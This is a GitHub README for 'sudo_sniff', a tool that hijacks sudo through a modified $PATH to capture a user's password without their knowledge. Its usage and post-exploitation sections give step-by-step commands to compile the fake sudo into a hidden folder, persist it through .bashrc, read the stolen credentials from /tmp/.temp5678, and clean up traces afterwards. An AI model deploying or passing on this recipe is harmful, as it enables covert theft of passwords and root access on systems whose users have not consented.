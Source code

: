 # sudo_sniff
**sudo\_sniff** is a simple program that attempts to steal the user's password while running sudo without arousing any suspicion. The idea is to modify the user's `$PATH` in order to hijack sudo when executed by the user. This could be used in post-exploitation as an alternative route for acheiving root acces (given that the user has the correct permissions).

**sudo_sniff** will store both correct and incorrect password entries at the following location per default: `/tmp/.temp5678`

## Improvements
* ~~Hide the victim's input~~
* ~~Add function to either send the password to attacker or save it on disk.~~
* sudo may be in different locations on different systems, perhaps implement a function to locate it
* ~~[BUG] When the victim enters his input, the text asking for the password will be printed multiple times.~~

## Usage
```
hunter@nsa:~$ git clone git@github.com:mjdubell/sudo_sniff.git
hunter@nsa:~$ cd sudo_sniff/
hunter@nsa:~$ make
hunter@nsa:~$ ./sudo whoami
```

#### Post Exploitation
```
victim@server:~$ mkdir $HOME/.payload
victim@server:~$ gcc -Wall -g -o $HOME/.payload/sudo sudo_sniff.c
victim@server:~$ echo 'export PATH="$HOME/.payload:$PATH"' >> $HOME/.bashrc
```
*Note: Make sure `sudo` is executable.*

##### Cleanup
```
victim@server:~$ rm -rf $HOME/.payload; rm /tmp/.temp5678; sed '/export PATH="$HOME\/\.payload:$PATH"/d' .bashrc > tmp && mv tmp .bashrc
```
*Note: Running `history` will reveal the cleanup command*

##### Retrieve the password
```
victim@server:~$ cat /tmp/.temp5678
victim:mypasword:ERROR
victim:mypassword:SUCCESS
```

## Contributing
1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Commit your changes: `git commit -am 'Add some feature'`
4. Push to the branch: `git push origin my-new-feature`
5. Submit a pull request :D
